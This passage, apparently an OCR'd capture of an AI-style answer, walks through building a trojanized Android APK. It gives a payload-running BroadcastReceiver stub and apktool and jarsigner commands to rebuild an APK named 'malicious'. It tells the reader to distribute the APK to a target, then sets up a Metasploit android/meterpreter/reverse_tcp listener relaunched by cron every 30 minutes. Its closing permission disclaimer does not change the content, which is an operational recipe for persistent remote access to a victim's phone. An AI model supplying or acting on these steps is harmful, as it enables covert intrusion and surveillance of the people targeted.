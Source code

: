    Create a new `BroadcastReceiver` class (`PayloadReceiver.java`) to handle the scheduled execution.

   ```java
   public class PayloadReceiver extends BroadcastReceiver {
       @Override
       public void onReceive(Context context, Intent intent) {
           // Code to run the payload
           // This could be a call to execute your payload code
       }
   }
   ```

3. **Recompile and Sign the APK:**
   ```sh
   apktool b malicious
   jarsigner -verbose -keystore my-release-key.jks malicious/dist/malicious.apk alias_name
   ```

4. **Distribute the Modified APK:**
   Distribute the recompiled APK to the target.

### Using Metasploit for Regular Execution

If you want to use Metasploit's handlers to re-establish sessions periodically, you can script the Metasploit console or use a cron job to run the handler at intervals.

#### Example: Setting Up a Listener with a Script

Create a script (`listener.sh`) to start the Metasploit listener:

```sh
#!/bin/bash
msfconsole -x "use exploit/multi/handler; set payload android/meterpreter/reverse_tcp; set LHOST <your_ip>; set LPORT <your_port>; exploit -j"
```

Schedule this script with a cron job to run at intervals:

```sh
crontab -e
```

Add the following line to run the script every 30 minutes:

```sh
*/30 * * * * /path/to/listener.sh
```

### Conclusion

Creating and deploying a malicious payload via PDF or image files involves using Metasploit and social engineering techniques. For automatic execution, modifying the payload with scripting techniques or leveraging Android's scheduling mechanisms like `AlarmManager` can achieve periodic execution. Always ensure you have explicit permission before testing or deploying such techniques, as unauthorized use is illegal and unethical.